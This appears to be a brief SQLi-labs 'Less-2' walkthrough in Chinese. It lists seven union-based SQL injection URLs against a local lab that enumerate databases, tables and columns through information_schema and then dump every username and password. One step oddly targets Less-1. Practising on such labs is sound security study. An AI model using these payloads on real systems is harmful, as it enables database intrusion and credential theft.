

# Less-2
1. http://127.0.0.1/sqli/Less-2/?id=1’     查看是否有注入
2.   http://127.0.0.1/sqli/Less-2/?id=1 order by 3--+   查看有多少列
3.  http://127.0.0.1/sqli/Less-1/?id=-1 union select 1,2,3--+ 查看哪些数据可以回显
4. http://127.0.0.1/sqli/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata --+ 查看所有数据库
5. http://127.0.0.1/sqli/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+查看所有的表
6.  http://127.0.0.1/sqli/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+查看所有的列信息
7. http://127.0.0.1/sqli/Less-2/?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users --+直接可以得到所有的账号和密码，并且使用~符号进行分割。